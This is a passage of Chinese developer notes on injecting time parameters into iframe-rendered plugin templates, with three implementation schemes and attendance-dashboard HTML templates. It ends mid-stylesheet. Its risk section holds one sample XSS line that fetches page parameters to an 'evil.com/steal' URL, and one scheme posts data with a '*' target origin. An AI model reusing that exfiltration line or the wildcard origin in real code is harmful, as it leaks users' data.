


说明：

在绘制好节点之后，用户选择时间，需要将选择的时间传递到插件里面

也就是node_graph_web.js中的objdata.selected_time传递到模板中

在node_graph_web.js中有两个参数selected_time和time_granularity，然后需求是，我在渲染code类型的节点的时候，需要将这两个参数传递到渲染的html中，而plugin_model.html是渲染的code类型模板，该如何修改？模板中如何接收？


## 思路以及实现流程

渲染前将参数封装到content里面，然后在模板中解析得到

**在 iframe 的 HTML 文档中注入 JavaScript 代码**，在页面加载时就将参数设置为全局变量。

### 流程



### 详细流程




## 潜在问题分析

### 优势 ✅

#### 1. **简单直接**

```javascript
// 无需复杂的通信机制
const params = window.NODE_PARAMS;
console.log(params.selected_time);
```

#### 2. **同步访问**

```javascript
// 参数在页面加载时就已存在，无需等待异步消息
document.addEventListener('DOMContentLoaded', function() {
    // 立即可用，无延迟
    const time = window.NODE_PARAMS.selected_time;
});
```

#### 3. **兼容性好**

- 不依赖 postMessage API
- 不受跨域限制（因为是注入到同源iframe）
- 所有浏览器都支持

#### 4. **调试方便**

```javascript
// 可以在控制台直接查看
console.log(window.NODE_PARAMS);
```

### 潜在风险 ⚠️

#### 1. **全局命名空间污染**

```javascript
// 可能与其他脚本冲突
window.NODE_PARAMS = {...};  // 如果页面已有同名变量会被覆盖

// 风险示例
// 你的代码
window.NODE_PARAMS = { selected_time: '2025-01-01' };

// 第三方库也使用了相同名称
window.NODE_PARAMS = { other_data: 'xxx' };  // 你的参数被覆盖了！
```

#### 2. **参数可被修改**

```javascript
// 恶意或错误代码可能修改参数
window.NODE_PARAMS.selected_time = 'hacked!';
delete window.NODE_PARAMS.agent_id;

// 解决方案：使用 Object.freeze()
window.NODE_PARAMS = Object.freeze({
    selected_time: '2025-01-01',
    time_granularity: 'day'
});
```

#### 3. **安全问题**

```javascript
// 如果HTML内容来自用户输入，可能存在XSS风险
// 恶意用户可能注入脚本窃取参数
<script>
    // 恶意代码
    fetch('https://evil.com/steal?params=' + JSON.stringify(window.NODE_PARAMS));
</script>
```

#### 4. **难以追踪参数来源**

```javascript
// 当出现问题时，不容易确定参数是从哪里来的
// 特别是在复杂的页面中有多个脚本时
```

#### 5. **内存泄漏风险**

```javascript
// 如果参数包含大量数据或引用，可能导致内存问题
window.NODE_PARAMS = {
    large_data: new Array(1000000).fill('data'),
    // 这些数据会一直占用内存
};
```

## 改进方案 💡

###  推荐方案对比

| 方案                            | 优点               | 缺点               | 适用场景             |
| ------------------------------- | ------------------ | ------------------ | -------------------- |
| **原方案 (window.NODE_PARAMS)** | 简单、同步、易用   | 可被修改、命名冲突 | 快速开发、可信内容   |
| **方案1 (命名空间+冻结)**       | 防修改、减少冲突   | 仍占用全局空间     | **推荐：平衡性最好** |
| **方案2 (postMessage)**         | 最安全、隔离性好   | 异步、复杂         | 高安全要求场景       |
| **方案3 (meta标签)**            | 不污染全局、语义化 | 需要DOM解析        | SEO友好场景          |

### 大体实现

```js
// ========== 方案1: 使用命名空间 + 冻结 ==========
const IframeManager = {
    wrapHtmlContent: function(htmlContent, params = {}) {
        return `
            <!DOCTYPE html>
            <html>
            <head>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <script>
                    // 使用命名空间避免冲突
                    window.__NODE_GRAPH__ = window.__NODE_GRAPH__ || {};
                    
                    // 冻结对象防止修改
                    window.__NODE_GRAPH__.PARAMS = Object.freeze({
                        selected_time: ${JSON.stringify(params.selected_time)},
                        time_granularity: ${JSON.stringify(params.time_granularity)},
                        agent_id: ${JSON.stringify(params.agent_id)},
                        node_id: ${JSON.stringify(params.node_id)},
                        node_name: ${JSON.stringify(params.node_name)}
                    });
                    
                    // 提供只读访问器
                    window.__NODE_GRAPH__.getParam = function(key, defaultValue = null) {
                        return this.PARAMS.hasOwnProperty(key) ? this.PARAMS[key] : defaultValue;
                    };
                    
                    // 提供验证方法
                    window.__NODE_GRAPH__.validateParams = function() {
                        const required = ['agent_id', 'node_id'];
                        for (let key of required) {
                            if (!this.PARAMS[key]) {
                                console.error('缺少必需参数:', key);
                                return false;
                            }
                        }
                        return true;
                    };
                </script>
                <style>
                    * { margin: 0; padding: 0; box-sizing: border-box; }
                    body { 
                        font-family: Arial, sans-serif; 
                        font-size: 10px; 
                        line-height: 1.2;
                        overflow: hidden;
                        transform: scale(0.8);
                        transform-origin: top left;
                        width: 125%;
                        height: 125%;
                    }
                </style>
            </head>
            <body>${htmlContent}</body>
            </html>
        `;
    }
};

// ========== 方案2: 使用 postMessage 通信 ==========
const IframeManager_V2 = {
    create: function(containerId, htmlContent, isComplete = false, params = {}) {
        this.destroy(containerId);

        const container = document.getElementById(containerId);
        if (!container) return null;

        const iframe = document.createElement('iframe');
        iframe.style.cssText = `
            width: 100%;
            height: 100%;
            border: none;
            border-radius: 8px 8px 0 0;
        `;

        htmlContent = $.dehtmlencode(htmlContent);
        const finalHtml = isComplete ? htmlContent : this.wrapHtmlWithMessageListener(htmlContent);
        
        const blob = new Blob([finalHtml], { type: 'text/html; charset=utf-8' });
        const blobUrl = URL.createObjectURL(blob);

        iframe.src = blobUrl;

        // iframe加载完成后发送参数
        iframe.onload = function() {
            iframe.contentWindow.postMessage({
                type: 'NODE_PARAMS',
                params: params
            }, '*');
        };

        container.appendChild(iframe);
        this.iframes.set(containerId, { iframe, params });
        this.blobUrls.set(containerId, blobUrl);

        return iframe;
    },

    wrapHtmlWithMessageListener: function(htmlContent) {
        return `
            <!DOCTYPE html>
            <html>
            <head>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <script>
                    // 使用闭包保护参数
                    (function() {
                        let _params = null;
                        let _initialized = false;
                        const _callbacks = [];

                        // 监听父窗口消息
                        window.addEventListener('message', function(event) {
                            if (event.data && event.data.type === 'NODE_PARAMS') {
                                _params = Object.freeze(event.data.params);
                                _initialized = true;
                                
                                // 执行所有等待的回调
                                _callbacks.forEach(cb => cb(_params));
                                _callbacks.length = 0;
                            }
                        });

                        // 暴露API
                        window.NodeParams = {
                            // 异步获取参数
                            get: function(callback) {
                                if (_initialized) {
                                    callback(_params);
                                } else {
                                    _callbacks.push(callback);
                                }
                            },
                            
                            // 同步获取（可能返回null）
                            getSync: function() {
                                return _params;
                            },
                            
                            // 获取单个参数
                            getValue: function(key, defaultValue = null) {
                                return _params && _params.hasOwnProperty(key) 
                                    ? _params[key] 
                                    : defaultValue;
                            },
                            
                            // 检查是否已初始化
                            isReady: function() {
                                return _initialized;
                            }
                        };
                    })();
                </script>
            </head>
            <body>${htmlContent}</body>
            </html>
        `;
    }
};

// ========== 方案3: 使用自定义元素存储 ==========
const IframeManager_V3 = {
    wrapHtmlContent: function(htmlContent, params = {}) {
        return `
            <!DOCTYPE html>
            <html>
            <head>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <script>
                    // 将参数存储在隐藏的 meta 标签中
                    document.addEventListener('DOMContentLoaded', function() {
                        const paramsMeta = document.querySelector('meta[name="node-params"]');
                        if (paramsMeta) {
                            try {
                                const params = JSON.parse(paramsMeta.content);
                                
                                // 创建只读访问器
                                Object.defineProperty(window, 'NodeParams', {
                                    value: Object.freeze(params),
                                    writable: false,
                                    configurable: false
                                });
                            } catch (e) {
                                console.error('解析参数失败:', e);
                            }
                        }
                    });
                </script>
                <!-- 参数存储在 meta 标签中 -->
                <meta name="node-params" content='${JSON.stringify(params).replace(/'/g, "&#39;")}'>
            </head>
            <body>${htmlContent}</body>
            </html>
        `;
    }
};

// ========== 使用示例 ==========

// 在 plugin_model.html 中使用方案1
/*
<script>
    // 使用命名空间方式
    const params = window.__NODE_GRAPH__.PARAMS;
    console.log(params.selected_time);
    
    // 使用访问器
    const time = window.__NODE_GRAPH__.getParam('selected_time', '');
    
    // 验证参数
    if (window.__NODE_GRAPH__.validateParams()) {
        // 参数有效，执行业务逻辑
    }
</script>
*/

// 在 plugin_model.html 中使用方案2
/*
<script>
    // 异步方式
    NodeParams.get(function(params) {
        console.log('接收到参数:', params);
        console.log('选择时间:', params.selected_time);
    });
    
    // 或使用同步方式（可能为null）
    const params = NodeParams.getSync();
    if (params) {
        console.log(params.selected_time);
    }
    
    // 获取单个值
    const time = NodeParams.getValue('selected_time', '默认值');
</script>
*/

// 在 plugin_model.html 中使用方案3
/*
<script>
    document.addEventListener('DOMContentLoaded', function() {
        // 参数会自动注入到 window.NodeParams
        console.log(window.NodeParams);
        console.log(window.NodeParams.selected_time);
        
        // 尝试修改会失败
        window.NodeParams = {}; // 无效
        window.NodeParams.selected_time = 'new'; // 无效
    });
</script>
*/
```

## 建议

对于你的项目，我推荐使用**方案1（命名空间+冻结）**，因为：

1. ✅ 保持了原方案的简单性
2. ✅ 通过命名空间避免冲突
3. ✅ 通过 `Object.freeze()` 防止修改
4. ✅ 提供了辅助方法和验证
5. ✅ 调试友好
6. ✅ 性能开销小

如果你的HTML内容来自不可信来源，则应该使用**方案2（postMessage）**以获得最佳安全性。

## 插件模板1.0

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>xxxx</title>
</head>
<body>

<!-- TODO 放的内容-->


</body>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('params:', params);
        if (params.selected_time || params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        }
    });

    /**
    * @param {object} selectedTime 选择的时间
    * @param {string} granularity 时间维度
    * */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 选择的时间=${selectedTime}, 时间维度=${granularity}`);
        // TODO 这里实现你的业务逻辑，根据传递的时间去获取数据
    }


</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

/*   TODO 内容区域  说明：单位统一使用vw  和 vh 切勿覆盖上面的样式  否则缩放后效果差 */


</style>
</html>
```

### 1、按照模板创建初始节点

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>出勤状态流程</title>
</head>
<body>

<!-- TODO 放的内容-->
<div class="main-card">
    <!-- 顶部导航 -->
    <div class="top-nav">
        <div class="nav-item left" id="prevBtn">
            <svg class="nav-arrow" viewBox="0 0 24 24" fill="white">
                <path d="M15.41 7.41L14 6l-6 6 6 6 1.41-1.41L10.83 12z"/>
            </svg>
            <div class="nav-text">
                <div class="nav-count" id="prevCount">36人</div>
                <div class="nav-label">昨晚</div>
            </div>
        </div>

        <!-- 中心圆形显示 -->
        <div class="center-circle">
            <div class="circle-label">今一班出勤率</div>
            <div class="circle-percentage" id="attendanceRate">100%</div>
            <div class="circle-date" id="currentDate">2025-08-26</div>
        </div>

        <div class="nav-item right" id="nextBtn">
            <div class="nav-text">
                <div class="nav-count" id="nextCount">36人</div>
                <div class="nav-label">明晚</div>
            </div>
            <svg class="nav-arrow" viewBox="0 0 24 24" fill="white">
                <path d="M8.59 16.59L10 18l6-6-6-6-1.41 1.41L13.17 12z"/>
            </svg>
        </div>
    </div>

    <!-- 统计数据 -->
    <div class="stats-row">
        <div class="stat-item">
            <div class="stat-circle">
                <div class="stat-value" id="leaveCount">0</div>
            </div>
            <div class="stat-label">请假</div>
        </div>

        <div class="stat-item">
            <div class="stat-circle">
                <div class="stat-value" id="absentCount">0</div>
            </div>
            <div class="stat-label">缺勤</div>
        </div>

        <div class="stat-item">
            <div class="stat-circle">
                <div class="stat-value" id="lateCount">0</div>
            </div>
            <div class="stat-label">迟到</div>
        </div>
    </div>
</div>

<!-- 流程步骤 -->
<div class="process-flow">
    <div class="step-item" id="step1" data-step="leave">
        <div class="step-node">请假</div>
        <div class="step-arrow">
            <svg viewBox="0 0 24 24" fill="currentColor">
               <path d="M6 12H18M18 12L12 6M18 12L12 18" stroke="currentColor" stroke-width="2" fill="none"/>
            </svg>
        </div>
    </div>

    <div class="step-item" id="step2" data-step="card">
        <div class="step-node">刷卡</div>
        <div class="step-arrow">
            <svg viewBox="0 0 24 24" fill="currentColor">
                <path d="M6 12H18M18 12L12 6M18 12L12 18" stroke="currentColor" stroke-width="2" fill="none"/>
            </svg>
        </div>
    </div>

    <div class="step-item" id="step3" data-step="check">
        <div class="step-node">点名</div>
        <div class="step-arrow">
            <svg viewBox="0 0 24 24" fill="currentColor">
                <path d="M6 12H18M18 12L12 6M18 12L12 18" stroke="currentColor" stroke-width="2" fill="none"/>
            </svg>
        </div>
    </div>

    <div class="step-item" id="step4" data-step="monthly">
        <div class="step-node">月报表</div>
        <div class="step-arrow">
            <svg viewBox="0 0 24 24" fill="currentColor">
              <path d="M6 12H18M18 12L12 6M18 12L12 18" stroke="currentColor" stroke-width="2" fill="none"/>
            </svg>
        </div>
    </div>

    <div class="step-item" id="step5" data-step="yearly">
        <div class="step-node">年报表</div>
    </div>
</div>

</body>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('接收到的参数:', params);

        // 根据参数加载数据
        if (params.selected_time && params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        } else {
            // 没有参数时使用默认数据
            loadDefaultData();
        }

        // 更新流程状态
        updateProcessStatus();

        // 绑定事件
        bindEvents();

        // 定时更新流程状态（每分钟检查一次）
        setInterval(updateProcessStatus, 60000);
    });

    /**
     * 根据时间加载数据
     * @param {string} selectedTime 选择的时间
     * @param {string} granularity 时间维度（日、月、年）
     */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 时间=${selectedTime}, 维度=${granularity}`);

        // 更新日期显示
        document.getElementById('currentDate').textContent = selectedTime;

        // TODO: 这里调用后端接口获取真实数据
        const mockData = getMockData();

        // 更新数据显示
        updateDisplay(mockData);
    }

    /**
     * 加载默认数据
     */
    function loadDefaultData() {
        console.log('使用默认数据');
        const today = new Date();
        const dateStr = formatDate(today, 'yyyy-MM-dd');

        document.getElementById('currentDate').textContent = dateStr;

        const defaultData = {
            attendanceRate: 100,
            leaveCount: 0,
            absentCount: 0,
            lateCount: 0,
            prevCount: 36,
            nextCount: 36
        };

        updateDisplay(defaultData);
    }

    /**
     * 获取模拟数据
     */
    function getMockData() {
        return {
            attendanceRate: 100,
            leaveCount: Math.floor(Math.random() * 3),
            absentCount: Math.floor(Math.random() * 3),
            lateCount: Math.floor(Math.random() * 3),
            prevCount: 36,
            nextCount: 36
        };
    }

    /**
     * 更新显示
     */
    function updateDisplay(data) {
        document.getElementById('attendanceRate').textContent = data.attendanceRate + '%';
        document.getElementById('leaveCount').textContent = data.leaveCount;
        document.getElementById('absentCount').textContent = data.absentCount;
        document.getElementById('lateCount').textContent = data.lateCount;
        document.getElementById('prevCount').textContent = data.prevCount + '人';
        document.getElementById('nextCount').textContent = data.nextCount + '人';
    }

    /**
     * 更新流程状态
     * 根据当前时间判断哪个节点应该高亮
     */
    function updateProcessStatus() {
        const now = new Date();
        const hours = now.getHours();
        const minutes = now.getMinutes();
        const currentTime = hours * 60 + minutes; // 转换为分钟数

        // 定义时间节点（以分钟为单位）
        const LEAVE_END = 7 * 60;          // 7:00 (请假截止)
        const CARD_START = 7 * 60;         // 7:00 (刷卡开始)
        const CARD_END = 8 * 60;           // 8:00 (刷卡结束)
        const CHECK_START = 8 * 60;        // 8:00 (点名开始)
        const CHECK_END = 12 * 60;         // 12:00 (点名结束)

        // 移除所有活动状态
        document.querySelectorAll('.step-item').forEach(item => {
            item.classList.remove('active');
        });

        // 根据当前时间激活对应节点
        if (currentTime < LEAVE_END) {
            // 7点之前：请假节点高亮
            document.getElementById('step1').classList.add('active');
            console.log('当前时间段：请假时间（7:00之前）');
        } else if (currentTime >= CARD_START && currentTime < CARD_END) {
            // 7:00-8:00：刷卡节点高亮
            document.getElementById('step2').classList.add('active');
            console.log('当前时间段：刷卡时间（7:00-8:00）');
        } else if (currentTime >= CHECK_START && currentTime < CHECK_END) {
            // 8:00-12:00：点名节点高亮
            document.getElementById('step3').classList.add('active');
            console.log('当前时间段：点名时间（8:00-12:00）');
        } else {
            // 其他时间：默认无高亮或显示已完成状态
            console.log('当前时间段：非活动时间');
        }
    }

    /**
     * 绑定事件
     */
    function bindEvents() {
        // 上一天按钮
        document.getElementById('prevBtn').addEventListener('click', function() {
            console.log('点击上一天');
            // TODO: 实现切换到上一天的逻辑
            alert('切换到上一天');
        });

        // 下一天按钮
        document.getElementById('nextBtn').addEventListener('click', function() {
            console.log('点击下一天');
            // TODO: 实现切换到下一天的逻辑
            alert('切换到下一天');
        });

        // 流程节点点击事件
        document.querySelectorAll('.step-item').forEach(item => {
            item.addEventListener('click', function() {
                const step = this.dataset.step;
                console.log('点击节点:', step);

                // TODO: 实现节点点击的具体逻辑
                switch(step) {
                    case 'leave':
                        alert('查看请假详情');
                        break;
                    case 'card':
                        alert('查看刷卡详情');
                        break;
                    case 'check':
                        alert('查看点名详情');
                        break;
                    case 'monthly':
                        alert('查看月报表');
                        break;
                    case 'yearly':
                        alert('查看年报表');
                        break;
                }
            });
        });
    }

    /**
     * 格式化日期
     */
    function formatDate(date, format) {
        const year = date.getFullYear();
        const month = String(date.getMonth() + 1).padStart(2, '0');
        const day = String(date.getDate()).padStart(2, '0');

        return format
            .replace('yyyy', year)
            .replace('MM', month)
            .replace('dd', day);
    }
</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

    /* 主卡片样式 */
    .main-card {
        background: linear-gradient(135deg, #26C281 0%, #1E9F6F 100%);
        border-radius: 2vw;
        padding: 1vw;
        margin-bottom: 5vh;
        color: white;
    }

    /* 顶部导航 */
    .top-nav {
        display: flex;
        justify-content: space-between;
        align-items: center;
        margin-bottom: 1vh;
    }

    .nav-item {
        display: flex;
        align-items: center;
        gap: 1.5vw;
        cursor: pointer;
        opacity: 0.9;
        transition: opacity 0.3s;
    }

    .nav-item:hover {
        opacity: 1;
    }

    .nav-arrow {
        width: 5vw;
        height: 5vw;
    }

    .nav-text {
        text-align: center;
    }

    .nav-count {
        font-size: 3vw;
        font-weight: 600;
        margin-bottom: 0.5vh;
    }

    .nav-label {
        font-size: 2.5vw;
        opacity: 0.9;
    }

    /* 中心圆形 */
    .center-circle {
        display: flex;
        flex-direction: column;
        align-items: center;
        justify-content: center;
        width: 15vw;
        height: 15vw;
        border: 0.6vw solid rgba(255, 255, 255, 0.3);
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.1);
    }

    .circle-label {
        font-size: 1.5vw;
        margin-bottom: 1vh;
        opacity: 0.9;
    }

    .circle-percentage {
        font-size: 3vw;
        font-weight: bold;
        margin-bottom: 1vh;
    }

    .circle-date {
        font-size: 2vw;
        opacity: 0.9;
    }

    /* 统计行 */
    .stats-row {
        display: flex;
        justify-content: space-around;
        align-items: center;
    }

    .stat-item {
        display: flex;
        flex-direction: column;
        align-items: center;
        gap: 1.5vh;
    }

    .stat-circle {
        width: 14vw;
        height: 14vw;
        border: 0.5vw solid rgba(255, 255, 255, 0.5);
        border-radius: 50%;
        display: flex;
        align-items: center;
        justify-content: center;
        background: rgba(255, 255, 255, 0.1);
    }

    .stat-value {
        font-size: 6vw;
        font-weight: bold;
    }

    .stat-label {
        font-size: 3vw;
        opacity: 0.9;
    }

    /* 流程步骤 */
    .process-flow {
        display: flex;
        align-items: center;
        justify-content: space-evenly;
        padding: 0 2vw;
    }

    .step-item {
        display: flex;
        align-items: center;
        cursor: pointer;
        transition: all 0.3s;
    }

    .step-node {
        background: #7c5cef;
        color: white;
        padding: 2.3vh 2vw;
        border-radius: 1.5vw;
        font-size: 3.6vw;
        font-weight: 500;
        white-space: nowrap;
        transition: all 0.3s;
    }

    .step-item:hover .step-node {
        transform: scale(1.05);
        box-shadow: 0 0.5vh 2vh rgba(124, 92, 239, 0.3);
    }

    /* 活动状态（凸起效果） */
    .step-item.active .step-node {
        background: linear-gradient(135deg, #9575ef 0%, #7c5cef 100%);
        box-shadow: 0 1vh 3vh rgba(0, 0, 10, 0.5);
        transform: translateY(-1vh) scale(1.1);
        animation: pulse 2s infinite;
    }

    @keyframes pulse {
        0%, 100% {
            box-shadow: 0 1vh 3vh rgba(110, 110, 110, 0.5);
        }
        50% {
            box-shadow: 0 1vh 4vh rgb(31, 31, 31);
        }
    }

    .step-arrow {
        width: 6vw;
        height: 6vw;
        color: #ef1717;
        display: flex;
    }

    .step-item:last-child .step-arrow {
        display: none;
    }

    /* 响应式调整 */
    @media (min-width: 768px) {
        .nav-arrow {
            width: 2.5vw;
            height: 2.5vw;
        }

        .nav-count {
            font-size: 1.5vw;
        }

        .nav-label {
            font-size: 1.2vw;
        }

        .center-circle {
            width: 13vw;
            height: 13vw;
            border-width: 0.3vw;
        }

        .circle-label {
            font-size: 1.2vw;
        }

        .circle-percentage {
            font-size: 4vw;
        }

        .circle-date {
            font-size: 1.1vw;
        }

        .stat-circle {
            width: 7vw;
            height: 7vw;
            border-width: 0.25vw;
        }

        .stat-value {
            font-size: 3vw;
        }

        .stat-label {
            font-size: 1.5vw;
        }

        .step-node {
            padding: 1vh 2vw;
            border-radius: 1vw;
            font-size: 1.5vw;
        }

        .step-arrow {
            width: 2vw;
            height: 2vw;
        }

        .main-card {
            border-radius: 1vw;

        }
    }
</style>
</html>
```

### 2、重构请假插件

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }
        html, body {
            width: 100%;
            height: 100%;
            overflow: auto;
            font-family: -apple-system, BlinkMacSystemFont, ''Segoe UI'', Roboto, sans-serif;
            background: #fff;
            font-size: 12px;
            line-height: 1.4;
            color: #333;
        }

        /* 主容器 - 完全填满iframe */
        .iframe-content {
            width: 100%;
            height: 100%;
            display: flex;
            flex-direction: column;
            justify-content: flex-start;
            align-items: stretch;
            transform-origin: top left;
            overflow: auto;
            position: relative;
        }

        .container {
            width: 100%;
            height: 100%;
            background: rgba(255, 255, 255, 0.95);
            backdrop-filter: blur(20px);
            display: flex;
            flex-direction: column;
            overflow: auto;
        }

        .header {
            text-align: center;
            display: flex;
            padding: 15px 10px 10px 10px;
            border-bottom: 1px solid rgba(0,0,0,0.05);
            background: rgba(255, 255, 255, 0.8);
            backdrop-filter: blur(10px);
        }

        .class-selector {
            display: inline-flex;
            align-items: center;
            gap: 8px;
            margin-bottom: 8px;
        }

        .class-title {
            font-size: 18px;
            font-weight: 600;
            color: #333;
            margin: 0;
            line-height: 1.3;
        }

        .total-count {
            font-size: 12px;
            color: #666;
            margin-top: 3px;
        }

        select {
            padding: 4px 8px;
            border: 1px solid #e0e0e0;
            border-radius: 12px;
            font-size: 11px;
            background: white;
            color: #333;
            outline: none;
            cursor: pointer;
            transition: all 0.3s ease;
        }

        select:hover, select:focus {
            border-color: #667eea;
            box-shadow: 0 0 0 2px rgba(102, 126, 234, 0.1);
        }

        .statistics-container {
            flex: 1;
            display: flex;
            align-items: center;
            justify-content: center;
            gap: 6px;
            flex-wrap: wrap;
            padding: 10px;
            min-height: 0;
        }

        .time-card {
            background: linear-gradient(135deg, #a8e6cf 0%, #7fcdcd 100%);
            border-radius: 8px;
            width: 80px;
            padding: 12px 8px;
            text-align: center;
            min-width: 50px;
            flex: 0 0 auto;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
            transition: all 0.3s ease;
            animation: slideIn 0.6s ease-out;
        }

        .time-card:nth-child(3) {
            background: linear-gradient(135deg, #ffd3a5 0%, #fd9853 100%);
            animation-delay: 0.1s;
        }

        .time-card:nth-child(4) {
            background: linear-gradient(135deg, #a8e6cf 0%, #7fcdcd 100%);
            animation-delay: 0.2s;
        }

        .time-card:nth-child(5) {
            background: linear-gradient(135deg, #ffa8a8 0%, #ff7a7a 100%);
            animation-delay: 0.3s;
        }

        @keyframes slideIn {
            from {
                opacity: 0;
                transform: translateY(-10px);
            }
            to {
                opacity: 1;
                transform: translateY(0);
            }
        }

        .time-card:hover {
            transform: translateY(-2px);
            box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
        }

        .count {
            font-size: 16px;
            font-weight: bold;
            color: white;
            margin-bottom: 4px;
            text-shadow: 0 1px 2px rgba(0, 0, 0, 0.2);
            line-height: 1;
        }

        .time-label {
            font-size: 9px;
            color: rgba(255, 255, 255, 0.9);
            font-weight: 500;
            line-height: 1;
        }

        .center-circle {
            background: linear-gradient(135deg, #c8a8e9 0%, #b19cd9 100%);
            border-radius: 50%;
            width: 80px;
            height: 80px;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
            transition: all 0.3s ease;
            animation: pulse 2s ease-in-out infinite alternate;
            flex: 0 0 auto;
        }

        @keyframes pulse {
            from {
                box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
            }
            to {
                box-shadow: 0 8px 16px rgba(0, 0, 0, 0.2);
            }
        }

        .center-circle:hover {
            transform: scale(1.05);
        }

        .center-count {
            font-size: 20px;
            font-weight: bold;
            color: white;
            text-shadow: 0 2px 4px rgba(0, 0, 0, 0.3);
            margin-bottom: 2px;
            line-height: 1;
        }

        .center-date {
            font-size: 8px;
            color: rgba(255, 255, 255, 0.9);
            font-weight: 500;
            line-height: 1;
        }

        .refresh-btn {
            position: absolute;
            bottom: 8px;
            right: 8px;
            width: 32px;
            height: 32px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            border: none;
            border-radius: 50%;
            color: white;
            font-size: 14px;
            cursor: pointer;
            box-shadow: 0 4px 8px rgba(102, 126, 234, 0.3);
            transition: all 0.3s ease;
            z-index: 10;
        }

        .refresh-btn:hover {
            transform: rotate(180deg) scale(1.1);
            box-shadow: 0 6px 12px rgba(102, 126, 234, 0.4);
        }

        /* 滚动条样式 */
        ::-webkit-scrollbar {
            width: 6px;
            height: 6px;
        }
        ::-webkit-scrollbar-track {
            background: #f1f1f1;
        }
        ::-webkit-scrollbar-thumb {
            background: #c1c1c1;
            border-radius: 3px;
        }
        ::-webkit-scrollbar-thumb:hover {
            background: #a8a8a8;
        }

        /* 响应式适配 */
        @media (max-width: 300px) {
            .statistics-container {
                gap: 8px;
                padding: 8px;
            }

            .time-card {
                min-width: 40px;
                padding: 8px 4px;
            }

            .count {
                font-size: 14px;
            }

            .time-label {
                font-size: 8px;
            }

            .center-circle {
                width: 60px;
                height: 60px;
            }

            .center-count {
                font-size: 16px;
            }

            .center-date {
                font-size: 7px;
            }

            .class-title {
                font-size: 14px;
            }

            .total-count {
                font-size: 10px;
            }
        }

        @media (max-height: 200px) {
            .header {
                padding: 8px 10px 5px 10px;
            }

            .class-title {
                font-size: 14px;
            }

            .total-count {
                font-size: 10px;
            }

